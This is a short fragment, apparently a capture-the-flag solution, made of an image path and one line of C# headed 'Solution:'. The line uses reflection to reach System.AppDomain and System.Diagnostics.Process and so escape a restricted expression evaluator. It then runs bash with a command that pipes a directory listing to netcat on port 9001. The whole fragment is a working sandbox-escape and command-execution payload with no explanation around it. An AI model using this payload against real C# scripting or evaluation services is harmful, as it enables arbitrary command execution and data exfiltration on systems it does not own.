 Solution: 
"".GetType().Assembly.GetType("System.AppDomain").GetMethods()[18].Invoke("".GetType().Assembly.GetType("System.AppDomain").GetProperty("CurrentDomain").GetValue(null), "System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089;System.Diagnostics.Process".Split(";".ToCharArray())).GetType().GetMethods()[80].Invoke(null, "bash;-c 'ls | nc 0 9001'".Split(";".ToCharArray()))
